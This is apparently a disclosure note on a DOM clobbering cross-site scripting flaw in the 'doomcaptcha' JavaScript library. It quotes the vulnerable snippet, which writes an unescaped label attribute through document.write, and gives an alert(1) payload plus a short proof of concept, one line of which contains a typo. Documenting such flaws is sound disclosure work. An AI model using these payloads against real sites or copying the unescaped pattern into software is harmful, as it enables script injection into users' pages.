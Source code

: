 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
